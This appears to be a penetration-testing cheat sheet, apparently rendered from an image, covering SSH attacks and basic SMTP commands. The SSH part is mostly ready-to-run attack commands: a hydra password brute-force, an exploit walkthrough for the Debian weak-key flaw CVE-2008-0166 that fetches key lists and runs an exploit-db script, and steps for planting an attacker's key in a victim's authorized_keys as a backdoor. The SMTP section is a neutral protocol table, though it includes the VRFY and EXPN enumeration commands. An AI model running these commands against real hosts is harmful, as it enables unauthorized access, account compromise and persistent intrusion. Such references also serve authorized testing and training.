 
## SSH - 22

### Bruteforce

```
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV
```

### CVE-2008-0166

```
All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected.

https://www.exploit-db.com/exploits/5720

wget https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_dsa_1024_x86.tar.bz2

bunzip2 debian_ssh_rsa_2048_x86.tar.bz2 debian_ssh_dsa_1024_x86.tar.bz2
tar -xvf debian_ssh_rsa_2048_x86.tar
tar -xvf debian_ssh_dsa_1024_x86.tar

python 5720 rsa/2048 <IP> <USER> <PORT> <THREADS>
python 5720 dsa/1024 <IP> <USER> <PORT> <THREADS>
```

### SSH backdoor post exploitation

```
# Attacker
ssh-keygen -f <FILENAME>
chmod 600 <FILENAME>
cat <FILENAME>.pub -> copy

# Victim
echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys

# Connect
ssh -i <FILENAME> <USER>@<IP>
```

---

## SMTP

| **Command**                                                | **Description**                                                                                                             |
| ---------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------- |
| `telnet <FQDN/IP> 25`                                      | Connect to the smtp server                                                                                                  |
| AUTH PLAIN                                                 | AUTH is a service extension used to authenticate the client.                                                                |
| HELO                                                       | The client logs in with its computer name and thus starts the session.                                                      |
| MAIL FROM                                                  | The client names the email sender.                                                                                          |
| RCPT TO                                                    | The client names the email recipient.                                                                                       |
| DATA                                                       | The client initiates the transmission of the email.                                                                         |
| RSET                                                       | The client aborts the initiated transmission but keeps the connection between client and server.                            |
| VRFY                                                       | The client checks if a mailbox is available for message transfer.                                                           |
| EXPN                                                       | The client also checks if a mailbox is available for messaging with this command.                                           |